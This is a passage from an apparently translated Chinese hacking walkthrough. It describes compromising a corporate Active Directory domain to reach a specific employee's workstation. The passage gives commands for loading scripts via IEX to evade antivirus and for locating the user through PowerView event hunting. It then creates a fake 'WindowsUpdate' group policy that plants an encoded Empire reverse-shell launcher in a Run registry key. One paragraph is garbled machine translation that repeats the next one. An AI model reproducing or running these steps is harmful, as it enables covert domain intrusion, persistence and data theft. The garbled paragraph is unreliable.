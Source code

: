 提示：我们使用invoke-expression（IEX）加载脚本，以免触发防病毒系统告警。 `PS> Get-AdUser -properties Department -Filter 'department -Like "HR"'` 我们重复此过程来映射公司内部的所有其他主要结构：ExCom，Marketing，Accounting等。获取用户名后，我们可以通过查找其工作站的IP/name来追踪它们。

最可靠的方法是解析域控上的成连接事件日志。它通常包含用户登录的最后一台计算机。

PowerView提供了Invoke-EventHunter模块来轻松完成此任务： `PS > Invoke-EventHunter -username Juliette` 朱丽叶最后一次使用了工作站FRPC066\(10.10.20.66\)。我们尝试远程访问她的工作站的默认共享文件夹，但最终被本地防火墙阻止: ![xxx&#x793A;&#x610F;&#x56FE;](.gitbook/assets/5.2-2.jpg) 没有RDP，也没有RPC端口……基本上无法从我们控制的计算机渗入。但是，我们控制着AD域，所以可以肯定，我们能够解决这些难题。

我们的救赎在于一般的政策和对象。GPO是在域级别定义的一组设置，用于更改资源配置:设置代理、更改屏幕保护程序，当然还有执行脚本!现在Every then,工作站调查新的GPO设置的域为逃避防火墙rules. controller...which是完美的如果我们可以插入一个执行PowerShell脚本的设置，我们就可以在她的机器上运行一个反向shell，并在以后做我们想做的任何事情。

我们的攻击入口在常规策略对象GPO。 GPO是在域级别定义的一组设置，用于更改资源的配置：设置代理，更改屏幕保护程序以及执行脚本！ 工作站不时地从域控中轮询新的GPO设置，这是逃避防火墙规则的完美之选。 如果我们可以进入执行PowerShell脚本的设置，则可以在她的计算机上运行一个反向shell，并在以后执行几乎所有需要的操作。

首先，我们在PowerShell会话中激活并导入可用的组策略模块\(10.10.20.118\):

```text
Ps> Add-WindowsFeature GPMC
Ps> import-module group-policy
```

然后，我们创建一个名为Windows更新的假GPO（我们以域控制器FRSV210为目标）： `PS> New-GPo -name WindowsUpdate -domain SPH.corp -Server FRSV210.sph.corp` 我们只想针对Juliette在计算机FRPC066上的账户，所以我们限制了这个GPO的范围:

```text
PS> Set-GPPermissions -Name "WindowsUpdate" - Replace -PermissionLevel GpoApply -TargetName "juliette" -TargetType user
PS> Set-GPPermissions -Name "WindowsUpdate" - Replace -PermissionLevel GpoApply -TargetName "FRPC066" -TargetType computer
PS> Set-GPPermissions -Name "WindowsUpdate" - PermissionLevel None -TargetName "Authenticated Users" -TargetType Group
```

最后，我们将它连接到SPH域来激活它: `PS> New-GPLink -Name WindowsUpdate -Domain sph.corp -Target "dc=sph,dc=corp" -order 1 -enforced yes` 我们返回到Front Gun服务器上的Empire框架，并生成一个新的反向Shell代理，这次将它编码为base64，以便很好地适合注册表项：

```text
(Empire: stager/launcher) > set Listener test
(Empire: stager/launcher) > generate
powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AGUAbQAuAE4ARQBUAC4AUwBl
```

然后，我们指示我们创建的GPO在下一次Juliette的计算机轮询新设置时设置“运行”注册表项。 此注册表项将在Juliette的下次登录时执行PowerShell代理：

```text
PS> Set-GPRegistryValue -Name "WindowsUpdate" -key "HKEY_CURRENT_USER\Software\Microsoft\Windows
-ValueName MSstart -Type String -value "powershell.exe
-NoP -sta -NonI -Enc WwBTAHk[…]"
```

我们耐心等待，直到最终，我们的反向shell连接成功 ![xxx&#x793A;&#x610F;&#x56FE;](.gitbook/assets/5.2-3.jpg) 进入工作站后，我们几乎可以执行如前所述的相同操作来窃取数据。
